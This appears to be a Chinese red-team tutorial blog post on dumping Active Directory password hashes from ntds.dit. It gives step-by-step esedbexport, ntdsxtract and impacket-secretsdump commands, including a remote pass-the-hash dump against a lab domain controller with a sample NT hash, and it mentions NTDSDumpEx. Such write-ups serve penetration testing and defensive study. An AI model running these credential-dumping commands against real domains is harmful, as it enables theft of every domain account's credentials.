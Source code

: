 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/vLdl0NYcANHK_2NYGEwyNA)

渗透攻击红队

一个专注于红队攻击的公众号

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDoZibS8XU01CtEtSbwM3VGr3qskOmA1VkccY0mwKTCq6u2ia1xYRwBn3A/640?wx_fmt=jpeg)

  

  

大家好，这里是 **渗透攻击红队** 的第 **33** 篇文章，本公众号会记录一些我学习红队攻击的复现笔记（由浅到深），不出意外每天一更

**esedbexport 恢复 ntds.dit**

#### 导出 ntds.dit

用 kali 下载工具安装：

```
#下载libesedb
wget https://github.com/libyal/libesedb/releases/download/20200418/libesedb-experimental-20200418.tar.gz

#安装依赖环境
apt-get install autoconf automake autopoint libtool pkg-config

#对libesedb进行编译和安装
./configure
make
sudo make install
sudo ldconfig
```

安装完后，会在系统的 /usr/local/bin 目录下看到 esedbexport 程序。

在 Kali 中，进入到存放 ntds.dit 文件的目录，使用 esedbexport 进行恢复操作：（操作时间需要根据 ntds.dit 的大小而定）

```
esedbexport -m tables ntds.dit
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLEXAC3JV0NiawdF4KndP3AkEScdBkOtIqt9XibUiaTrSTD9W10QwptdqaE8ibamt5FNTj3RZyiazysWPg/640?wx_fmt=png)

提取成功，会在当前路径下生成一个 ntds.dit.export 的目录：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLEXAC3JV0NiawdF4KndP3AkegTpZBaHRjygiaPgDW3wkFUMqYQaZD3fSia8kAL4BtetW137A4iaW8ickw/640?wx_fmt=png)

我们只需要 datatable 和 link_table 。  

**导出域内所有哈希值**

#### ntdsxtract 导出散列值

在 kali 里使用命令安装 ntdstract：

```
#工具下载
git clone https://github.com/csababarta/ntdsxtract.git
#工具安装
python setup.py build && python setup.py install
```

首先，将导出的 ntds.dit.export 文件夹和 SYSTEM 文件夹一并放入 ntdsxtract 文件夹。

然后将域内的所有用户名及散列值导出到 all_user.txt 中：

```
dsusers.py ntds.dit.export/datatable.3 ntds.dit.export/link_table.5 output --syshive SYSTEM --passwordhashes --pwdformat ocl --ntoutfile ntout --lmoutfile lmout |tee all_user.txt
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLEXAC3JV0NiawdF4KndP3AkELZPtQcxhlDzScpfr9rVR06JgFdwicDDFNdWlribribY0gOgsO5DedsJA/640?wx_fmt=png)

ntds.dit 包含域内所有信息，可以通过分析 ntds.dit 导出域内的计算机信息及其他信息：

```
dscomputers.py ntds.dit.export/datatable.3 comupter_output --csvoutfile all_computers.csv
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLEXAC3JV0NiawdF4KndP3Ak1TEhabbTmrLrCMj89rnd5MTV5ngpskXKwpBp84IXQNdVeNkh0VA7xw/640?wx_fmt=png)

**impacket 导出域内所有哈希值**

工具下载地址：https://github.com/SecureAuthCorp/impacket

使用 impacket 工具包中的 secretdump，可以解析 ntds.dit 文件，导出散列值。

在 kali 中安装：

```
#下载
git clone https://github.com/SecureAuthCorp/impacket
#安装
python setup.py install
```

导出 ntds.dit 中所有的散列值：

```
impacket-secretsdump -system SYSTEM -ntds ntds.dit LOCAL
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLEXAC3JV0NiawdF4KndP3AkJVicALcwGibRq4Sy10hrBVBkqf4dcxX4yHTWtbLQeIglzZgrml76wKlw/640?wx_fmt=png)

impacket 还可以直接通过用户名和散列值进行验证，从远程域控制器中读取 ntds.dit 并转储域散列值，命令如下：

```
impacket-secretsdump -hashes LM HASH:NT HASH -just-dc god.org/administrator@192.168.2.25

impacket-secretsdump -hashes aad3b435b51404eeaad3b435b51404ee:ccef208c6485269c20db2cad21734fe7 -just-dc god.org/administrator@192.168.2.25
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLEXAC3JV0NiawdF4KndP3AkwXlESju3kALCsib4BpqXknqtF6oZZSFhpMoQlH2hvMnSiaGAT0rB9cfQ/640?wx_fmt=png)

* * *

**Windows 下解析 ntds.dit 并导出域账号和域哈希值**

使用 NTDSDumpex.exe 可以导出 散列值的操作。

```
NTDSDumpex.exe  下载地址：
https://github.com/zcgonvh/NTDSDumpEx/releases/download/v0.3/NTDSDumpEx.zip
```

将 ntds.dit、SYSTEM 和 NTDSDumpex.exe 放在同一目录下运行命令：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLEXAC3JV0NiawdF4KndP3AkZMPg7w2TdiaAqRjg5fnnMCeqctRaL69MOZJTbcYibeuWfuEqnpe5iaz4g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

渗透攻击红队

一个专注于渗透红队攻击的公众号

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDdjBqfzUWVgkVA7dFfxUAATDhZQicc1ibtgzSVq7sln6r9kEtTTicvZmcw/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDY9HXLCT5WoDFzKP1Dw8FZyt3ecOVF0zSDogBTzgN2wicJlRDygN7bfQ/640?wx_fmt=png)

点分享

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDRwPQ2H3KRtgzicHGD2bGf1Dtqr86B5mspl4gARTicQUaVr6N0rY1GgKQ/640?wx_fmt=png)

点点赞

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDgRo5uRP3s5pLrlJym85cYvUZRJDlqbTXHYVGXEZqD67ia9jNmwbNgxg/640?wx_fmt=png)

点在看